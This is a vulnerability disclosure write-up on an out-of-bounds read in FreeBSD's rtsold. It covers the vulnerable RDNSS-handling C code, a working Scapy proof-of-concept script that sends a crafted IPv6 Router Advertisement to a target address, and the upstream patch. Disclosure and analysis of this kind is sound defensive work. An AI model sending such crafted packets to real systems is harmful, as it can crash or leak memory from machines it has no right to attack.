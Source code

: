 ## FreeBSD rtsold Out of Bounds Read Vulnerability

On January 28th, 2021, Quarkslab published a blog "[Bad Neighbor on FreeBSD: IPv6 Router Advertisement Vulnerabilities in rtsold (CVE-2020-25577)](https://blog.quarkslab.com/bad-neighbor-on-freebsd-ipv6-router-advertisement-vulnerabilities-in-rtsold-cve-2020-25577.html)", which detailed about 4 vulnerabilities found in the IPv6 stack of FreeBSD, more specifically in `rtsold(8)`, the router solicitation daemon. After reading it, I took a look at `rtsold` , and found another out-of-bounds read vulnerability.

### Description

The function `rtsol_input()` in `usr.sbin/rtsold/rtsol.c` loops through the options included in a `Router Advertisement` message. One of the supported option types is called `Recursive DNS Server`, or `RDNSS` for short. The `RDNSS` option is composed of 4 fixed fields (`Type`, `Length`, `Reserved` and `Lifetime`), followed by a variable number of IPv6 addresses of recursive DNS servers. In general, the `Length` field is an odd multiple of 8.

When dealing with a `RDNSS` option, the routine will go to line 364. At line 376, the `addr` pointer is set to point past the 4 fixed fields of the `RNDSS` option, that is, it points to the beginning of the variable number of IPv6 addresses included in the `RDNSS` option. Then, at line 377, it loops over the IPv6 addresses in the `RDNSS` option, reading a 16-byte IPv6 address from the option data at each iteration, as long as the `addr` pointer doesn't reach the end of the option, which is calculated by using the `RA_OPT_NEXT_HDR` macro.

However, if we craft a `ND_OPT_RDNSS` option with `Length=4` (even multiple of 8), when the routine go to line 378 again, it will read 16-byte address from the option data, but there is only 8-byte available. As a result, out-of-bounds read will occur.

```c
157	void
158	rtsol_input(int sock)
159	{
[...]
339	
340	#define RA_OPT_NEXT_HDR(x)      (struct nd_opt_hdr *)((char *)(x) + \
341	                                (((struct nd_opt_hdr *)(x))->nd_opt_len * 8))
342	        /* Process RA options. */
343	        warnmsg(LOG_DEBUG, __func__, "Processing RA");
344	        raoptp = (char *)icp + sizeof(struct nd_router_advert);
345	        while (raoptp < (char *)icp + msglen) {
346	                ndo = (struct nd_opt_hdr *)raoptp;
[...]
352	
353	                if (ndo->nd_opt_len == 0) {
354	                        warnmsg(LOG_INFO, __func__, "invalid option length 0.");
355	                        break;
356	                }
357	                if ((char *)RA_OPT_NEXT_HDR(raoptp) > (char *)icp + msglen) {
358	                        warnmsg(LOG_INFO, __func__, "option length overflow.");
359	                        break;
360	                }
361	
362	                switch (ndo->nd_opt_type) {
363	                case ND_OPT_RDNSS:
364	                        rdnss = (struct nd_opt_rdnss *)raoptp;
365	
366	                        /* Optlen sanity check (Section 5.3.1 in RFC 6106) */
367	                        if (rdnss->nd_opt_rdnss_len < 3) {
368	                                warnmsg(LOG_INFO, __func__,
369	                                        "too short RDNSS option"
370	                                        "in RA from %s was ignored.",
371	                                        inet_ntop(AF_INET6, &from.sin6_addr,
372	                                            ntopbuf, sizeof(ntopbuf)));
373	                                break;
374	                        }
375	
376	                        addr = (struct in6_addr *)(void *)(raoptp + sizeof(*rdnss));
377	                        while ((char *)addr < (char *)RA_OPT_NEXT_HDR(raoptp)) {
378	                                if (inet_ntop(AF_INET6, addr, ntopbuf,
379	                                        sizeof(ntopbuf)) == NULL) {
380	                                        warnmsg(LOG_INFO, __func__,
381	                                            "an invalid address in RDNSS option"
382	                                            " in RA from %s was ignored.",
383	                                            inet_ntop(AF_INET6, &from.sin6_addr,
384	                                                ntopbuf, sizeof(ntopbuf)));
385	                                        addr++;
386	                                        continue;
387	                                }
[...]
436	                                addr++;
437	                        }
```

### Proof of Concept

The following code, based on `Scapy`, provides a proof-of-concept for the bug described above. It was tested against `FreeBSD 12.2-RELEASE-p3`.

```python
import string
from scapy.layers.inet6 import IPv6, ICMPv6ND_RA, ICMPv6NDOptDNSSL, ByteField, ShortField, IntField, StrField
from scapy.all import send, Packet

class MyICMPv6NDOptRDNSS(Packet):
    name = "ICMPv6 Neighbor Discovery Option - Recursive DNS Server Option"
    fields_desc = [ByteField("type", 25),
                   ByteField("len", 4),
                   ShortField("res", None),
                   IntField("lifetime", 0xffffffff),
                   StrField("dns", "AAAAAAAAAAAAAAAABBBBBBBB")
    ]

def rdnss_oob_read(target_addr):
    def build_domain_name(name_len):
        CHUNKS = name_len // 0x3f
        subdomains = []
        for i in range(CHUNKS):
            subdomains.append(string.ascii_lowercase[i] * 0x3f)
        domain = '.'.join(subdomains)
        print('final len(domain) :{}'.format(len(domain)))
        return domain

    ip = IPv6(dst = target_addr, hlim = 255)
    ra = ICMPv6ND_RA()
    dnssl1 = ICMPv6NDOptDNSSL(lifetime=1, searchlist=[build_domain_name(1024)])
    dnssl2 = ICMPv6NDOptDNSSL(lifetime=1, searchlist=[build_domain_name(375)])
    dnssl3 = ICMPv6NDOptDNSSL(lifetime=1, searchlist=['1'*22])

    rdnss = MyICMPv6NDOptRDNSS(lifetime=1)

    pkt = ip/ra/dnssl1/dnssl2/dnssl3/rdnss

    print("total pakcet len: %d" % (len(pkt)))
    print("total ipv6 len: %d" % (len(ra/dnssl1/dnssl2/dnssl3/rdnss)))
    send(pkt)

def main():
    target_addr = "fe80::20c:29ff:fed1:1999"
    rdnss_oob_read(target_addr)

if __name__ == '__main__':
    main()
```

### Patch

It has been fixed in this [commit](https://cgit.freebsd.org/src/commit/?id=1af332a7d8f86b6fcc1f0f575fe5b06021b54f4c) as follows.

```diff
diff --git a/usr.sbin/rtsold/rtsol.c b/usr.sbin/rtsold/rtsol.c
index 30027fc65ac9..76756bfd8393 100644
--- a/usr.sbin/rtsold/rtsol.c
+++ b/usr.sbin/rtsold/rtsol.c
@@ -363,13 +363,19 @@ rtsol_input(int sock)
 		case ND_OPT_RDNSS:
 			rdnss = (struct nd_opt_rdnss *)raoptp;
 
-			/* Optlen sanity check (Section 5.3.1 in RFC 6106) */
-			if (rdnss->nd_opt_rdnss_len < 3) {
+			/*
+			 * The option header is 8 bytes long and each address
+			 * occupies 16 bytes, so the option length must be
+			 * greater than or equal to 24 bytes and an odd multiple
+			 * of 8 bytes.  See section 5.1 in RFC 6106.
+			 */
+			if (rdnss->nd_opt_rdnss_len < 3 ||
+			    rdnss->nd_opt_rdnss_len % 2 == 0) {
 				warnmsg(LOG_INFO, __func__,
-		    			"too short RDNSS option"
-					"in RA from %s was ignored.",
-					inet_ntop(AF_INET6, &from.sin6_addr,
-					    ntopbuf, sizeof(ntopbuf)));
+				    "too short RDNSS option in RA from %s "
+				    "was ignored.",
+				inet_ntop(AF_INET6, &from.sin6_addr, ntopbuf,
+				    sizeof(ntopbuf)));
 				break;
 			}
```

### Reference

+ [Bad Neighbor on FreeBSD: IPv6 Router Advertisement Vulnerabilities in rtsold (CVE-2020-25577)](https://blog.quarkslab.com/bad-neighbor-on-freebsd-ipv6-router-advertisement-vulnerabilities-in-rtsold-cve-2020-25577.html)
+ [Multiple vulnerabilities in rtsold](https://www.freebsd.org/security/advisories/FreeBSD-SA-20:32.rtsold.asc)
+ [Neighbor Discovery Protocol](https://en.wikipedia.org/wiki/Neighbor_Discovery_Protocol)
+ [rtsold: Fix validation of RDNSS options](https://cgit.freebsd.org/src/commit/?id=1af332a7d8f86b6fcc1f0f575fe5b06021b54f4c)